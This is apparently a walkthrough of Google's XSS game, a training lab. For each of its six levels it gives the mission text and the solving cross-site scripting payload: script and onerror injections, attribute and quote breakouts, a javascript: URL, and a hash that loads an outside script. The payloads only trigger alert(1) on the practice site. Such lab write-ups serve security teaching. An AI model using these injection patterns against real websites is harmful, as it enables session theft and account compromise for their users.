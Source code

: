P.S. You can find the challenges [here](https://xss-game.appspot.com/):

# [1/6]  Level 1: Hello, world of XSS

## Mission Description
This level demonstrates a common cause of cross-site scripting where user input is directly included in the page without proper escaping. 

Interact with the vulnerable application window below and find a way to make it execute JavaScript of your choosing. You can take actions inside the vulnerable window or directly edit its URL bar.

## Mission Objective
Inject a script to pop up a JavaScript alert() in the frame below. 

Once you show the alert you will be able to advance to the next level.

## Solution
```
<script>alert(1);</script>
```

# [2/6]  Level 2: Persistence is key

## Mission Description
Web applications often keep user data in server-side and, increasingly, client-side databases and later display it to users. No matter where such user-controlled data comes from, it should be handled carefully. 

This level shows how easily XSS bugs can be introduced in complex apps.

## Mission Objective
Inject a script to pop up an alert() in the context of the application. 

Note: the application saves your posts so if you sneak in code to execute the alert, this level will be solved every time you reload it.

## Solution
```
<img src="#" onerror="alert(1)" />
```

# [3/6]  Level 3: That sinking feeling...

## Mission Description
As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 

The application on this level is using one such hidden sink.

## Mission Objective
As before, inject a script to pop up a JavaScript alert() in the app. 

Since you can't enter your payload anywhere in the application, you will have to manually edit the address in the URL bar below.

## Solution
```
https://xss-game.appspot.com/level3/frame#' onerror='alert(1)' x='
```

# [4/6]  Level 4: Context matters

## Mission Description
Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

## Mission Objective
Inject a script to pop up a JavaScript alert() in the application.

## Solution
```
');alert('1
```

# [5/6]  Level 5: Breaking protocol

## Mission Description
Cross-site scripting isn't just about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.

## Mission Objective
Inject a script to pop up an alert() in the context of the application.

## Solution
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```

# [6/6]  Level 6: Follow the 🐇

## Mission Description
Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

## Mission Objective
Find a way to make the application request an external file which will cause it to execute an alert(). 

## Solution
```
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

# Congratulations!
                                                         -oooo:-                                                        
                                                        omhsoosho`                                                      
                                                        Ndo:``:oh-                                                      
                                                        dms+--+ym:                                                      
                                                        -ymhohdh+`                                                      
                                                         `N/`.s.                                                        
                                                          +:  +                                                         
                                                          --  :                                                         
                                                          --  o                                                         
                                                          ..  +                                                         
                                                          ::  s        ..`                                              
                                                .:sssso.  --  +     :syhhyo`                                            
                                ..::::.       `odhhyyhdd. ::  s    .mhhyhhdh.       -:...`                              
                               /dhhhhhhs     .odddhyhdddh+y:  my-syhdhhyhhddy/`   .odhyyhh:                             
                              yNdhyyoyhmo+::+ms/+++//++/odm:  NNmNd+///+++/+ody::omhyssyhdm-                            
                            -sddyyyyyyyoommmmmmdhyyyyyyhddd: `ddmdmdhyssyyhhmmNNNNdhyyyyyhmo-`                          
                        ``-omdyyyssys///shdddddddddmmdddhyy-``yhddddhhhhhdmmmmmmdd/oyssyyyyhmhss-`                      
                     `:ohhdmddhhyyyyyshddddhhyyyyyhddhhyo:-...--shhyysssyyhhdhhhddyyysyyyhdddmNNmyo.                    
                    /hNNmmd/:o+/////:`/osyhhyyys+syyhhyysysooossyyyyyooyyyyyyysyy+./oooooos/:ydNNmNmo.                  
                   +dNmmmmmhoo+///////oossshhyyyyyyyyssoossoosoosssyyyyyyyhsoyyyys/:-..--:/+sdddmmmNMy                  
                  `hNmmdmmdmddddhhhyhysso+.oyssssso-./o:-/+oo++oo--osoooooo..oyyhyyyyyyhhhyhdddmmdmNNN                  
                  `yNmNNhhdmdddhhhyyyyyyys:-......`./+++/:o++oo++/-````..::/+sysysyyyhsshhhydddmmmNNNN                  
                   sMNNNNNNmmdmdhhhhyyyyyyhhssssoo+oo/+//:/+//+:++++ooosyooyssosyyhhyhsshdhdmmNmNmmMMN                  
                   -NNNNNNhmNmdmmmdddddmhhhyyyyssys///+/:://////o+osoo+osoossosyhhdddh+omddmNNmmNmNMMN                  
                   oMNNNNNNNNdydNmmmmmdhydhhsoooodhydhsshys+soyooooosssyhyhymdhdhyddmmmdmNNNNNNmNNNMMM                  
                   yMMNNNMmmNdmmNNNNNNmh/sysyysyhyddmhhyhyhhddyyyhmddhhdmdddmmmdmmmmNNmmmNmNNNNmMNMMMM                  
                  .dMMNNMMNNNmNNNNNNmmNNhsddddNNdmhdmddyyhdhdhdddhdmhhdddhmddmmmNNNNNNNNNNNNNNNNMNMMMM                  
                  :NMMMNMMNMNhhmNNNNmdmNNmhddmdNmmmmmmddddNmdhdhddddmddmmmmmmNdNmdmmNNNmNNNNNdmMMMMMMM                  
                  -mMMMMMNNmNNmNNNNNNNNNNNdmmNmNmNmNmmNNmmNNdhddmmmmNmhhhyohNMNMNmmmmNdmNNMMMNNMMMMMMM                  
                  .dMMMMMMNNNMMMMMNNNNNMNmmmNNNmmmmNNdddmmNNNmmdNNmNNNmmNNNNNNNNNNNNNNNmNNNNNmNMMMMMMM                  
                  :NMMMMMMMMMMMMMMMNmmNMNNNNNNNmmNmNNNNmdmNNNNNNNmNNdmNNMMNMmNNNNNNMMNdmNNNMNmmMMMMMMM                  
                  :NNMMMMMMMMMMMMMMMMNNMNNMNNNMMMNNNNNNmNmdmmmNNNNNNmmNNNNNNNNNNMNNMMMNNNNMMNmMMMMNNMN                  
                  :NMMMNNMMMMMMMMMMMMMNNMMMMNMMMNmNNMNNNNNmhNMNNMNNNMMNMMMMMNNMMNNNMNMMMMNMMNNMMNMNMMM                  
                  `hMMMNdMNNMNNNNNMMNNNNMMMMMMMMNmNMMMMNNNNNNNdmmmMNMMMMMMNNMMNmdNMMNMNNNNMNmmNMNMMMMN                  
                   yMMMMNMMNMNmmNNNMNmddmMMNNNMNNNNNMMNNNNMNNNNNNNmNNNNNNNNNNNNNddNdmdmmNNMNNdMMMMMMMN                  
                   yMMMMNMNMMNNMMNNNNmdmmNMNNdhmMNNNNNNmNMMddddmNNNmNNMMNmNmmmmmNNmmmmNMMMMMMNNNMMMMMN                  
                   yNNNMMNNMMMMMMNNNNNMmmdNNNNNNNNNNNNmNNNNNmNmmNNNNNNNNNNNmNmNNNNNNNNNNNNNMMMNNMMMMMy                  
                   +MMMMMMMMMMMNNNNMMMNNNNmNNNMNMNNMNNmhdNNNNNmNNNmmNNNNNNNNNNNMMNNmNNNNNMNMNMMMMMMMN:                  
                    NMMMMNMMMMMMMNNNNNNdNMNNNNNNmNNNNNNNNNmmhNNNNmdNNNNNNNNNMMNNMNNNNNNNNNMMMMNNMMMNs`                  
                    -sdmNMNNMMMMMNNNNmmmmNNNMNmNMNNNNNNNMNmNNNNNNmmmdmNNNMNmmmmNMNNMNMmmNNMMMNMNmd+-`                   
                      `.ohNNMMNMMNMNNmdmNNNNNNmNMNNMNNNNmNNNmmmNmNMMNNMNNMMNNNNNNNNNNMMMMMMMNNho.`                      
                          :+hdNNNNNNNNNNNNNNmNNNNNNNMNNNmNNNNmMmmmNNNMNNNNNNNNMNNMMMMMNNmdds/-                          
                             `--:+shddmmNmmmmNNNNMNNNMNNNNNNNNNNMMNMMMNNNmNNNMNNNNdh++/-.`                              
                                     `--++osdddddddysNmmhshmmmmmNmddddddho/:++/---                                      
                                                    `-.-. .------.                                 
